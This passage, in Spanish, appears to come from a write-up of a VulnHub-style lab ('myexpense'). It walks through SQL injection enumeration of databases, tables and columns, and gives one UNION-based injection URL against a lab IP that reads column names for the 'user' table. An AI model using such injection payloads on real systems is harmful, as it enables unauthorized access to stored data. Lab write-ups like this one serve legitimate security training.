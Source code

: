 Pero antes vamos a enumerar todas las bases de datos

![](/assets/images/vh-writeup-myexpen/Web39.png)

Y bueno nos vamos a quedar con `myexpense` vamos a ver si podemos obtener sus tablas y estas son las tablas

![](/assets/images/vh-writeup-myexpen/Web40.png)

Ahora vamos a enumerar las columnas

```
http://192.168.100.38/site.php?id=2 union select 1,column_name from information_schema.columns where table_schema='myexpense' and table_name='user'-- -
```

![](/assets/images/vh-writeup-myexpen/Web41.png)

